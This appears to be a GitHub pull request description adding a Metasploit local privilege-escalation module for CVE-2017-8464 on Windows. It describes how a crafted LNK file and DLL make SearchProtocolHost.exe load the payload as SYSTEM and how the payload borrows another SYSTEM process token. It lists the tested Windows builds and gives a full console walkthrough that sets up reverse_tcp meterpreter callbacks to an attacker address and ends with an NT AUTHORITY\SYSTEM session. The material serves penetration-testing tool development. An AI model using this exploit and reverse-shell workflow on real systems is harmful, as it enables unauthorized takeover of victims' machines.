 ## Description
This PR adds a new Windows local exploit version of the existing file
format module for CVE-2017-8464. The module works by dropping the
specially crafted LNK file and DLL to disk, which causes
`SearchProtocolHost.exe` to parse the LNK file and thus load the DLL via
the vulnerability. Due to `SearchProtocolHost.exe` running as SYSTEM,
this can be used to elevate privileges.

The original DLL template needed some significant reworking to make it
compatible for execution within `SearchProtocolHost.exe`. The payload
was originally failing in the hollowed child `rundll32.exe` process with
a denied error from winsock. I addressed this by checking if the process
which loaded the crafted DLL is `SearchProtocolHost.exe` and when it is,
it opens the token of another SYSTEM process and passes it to
`CreateProcessAsUser` for the payload to work. When the DLL is loaded
into another process or is not running as SYSTEM, this step is skipped
and `NULL` is passed as the token.

Finally a thread is spawned to keep a module reference and monitor the
child process. This is for synchronization to prevent the payload from
being executed in rapid succession from a single exploitation attempt.
The mutex was also updated to the constant of `MUTEX!!!` to leverage
Metasploit's builtin mutex name randomization, which ensures that a name
is unique per module run but not globally unique.

## Vulnerable Systems
Tested and works on
Windows 7x64 SP0
Windows 7x64 SP1
Windows 8x64
Windows 8.1x64
Windows 10x64 Build 1511
Windows 10x64 Build 1607
Windows 10x64 Build 1703

## Running Example:
```
> use exploit/multi/handler
> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
> set LHOST 192.168.135.112
LHOST => 192.168.135.112
> set LPORT 30001
LPORT => 30001
> show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.112  yes       The listen address
   LPORT     30001            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


[*] > Ruby Code (13 bytes)
> run -z
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.135.112:30001 
[*] Sending stage (205379 bytes) to 192.168.134.133
[*] Meterpreter session 1 opened (192.168.135.112:30001 -> 192.168.134.133:49178) at 2017-11-06 10:22:02 -0800
> sysinfo
Computer        : WIN7X64-SP0
OS              : Windows 7 (Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
> sessions -l

Active sessions
===============

  Id  Type                     Information                        Connection
  --  ----                     -----------                        ----------
  1   meterpreter x64/windows  WIN7X64-SP0\msfuser @ WIN7X64-SP0  192.168.135.112:30001 -> 192.168.134.133:49178 (192.168.134.133)

> use exploit/windows/local/cve_2017_8464_lnk_lpe
> set session 1
session => 1
> set target 0
target => 0
> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
> set lhost 192.168.135.112
lhost => 192.168.135.112
> set lport 30002
lport => 30002
> set verbose true
verbose => true
> show options

Module options (exploit/windows/local/cve_2017_8464_lnk_lpe):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DLLNAME                    no        The DLL file containing the payload
   FILENAME                   no        The LNK file
   PATH                       no        An explicit path to where the files should be written to
   SESSION   1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.112  yes       The listen address
   LPORT     30002            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


> run -j
[*] Exploit running as background job 1.
[*] Started reverse TCP handler on 192.168.135.112:30002 
[*] Generating LNK file to load: C:\Users\msfuser\QtGyQHZpWvmzjdsn.dll
[*] Sending stage (205379 bytes) to 192.168.134.133
[*] Meterpreter session 2 opened (192.168.135.112:30002 -> 192.168.134.133:49179) at 2017-11-06 10:23:03 -0800
[*] Waiting 15s before file cleanup...
[+] Deleted C:\Users\msfuser\HADoIQMbEQDpbbRn.lnk
[+] Deleted C:\Users\msfuser\QtGyQHZpWvmzjdsn.dll
> sessions -l

Active sessions
===============

  Id  Type                     Information                        Connection
  --  ----                     -----------                        ----------
  1   meterpreter x64/windows  WIN7X64-SP0\msfuser @ WIN7X64-SP0  192.168.135.112:30001 -> 192.168.134.133:49178 (192.168.134.133)
  2   meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN7X64-SP0  192.168.135.112:30002 -> 192.168.134.133:49179 (192.168.134.133)

> getuid
Server username: WIN7X64-SP0\msfuser
Server username: NT AUTHORITY\SYSTEM
> getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
> getuid
Server username: NT AUTHORITY\SYSTEM
> exit -y
```

## Compiling instructions
Run `data/exploits/cve-2017-8464/src/build.sh`
(Requires `mingw-w64` package)
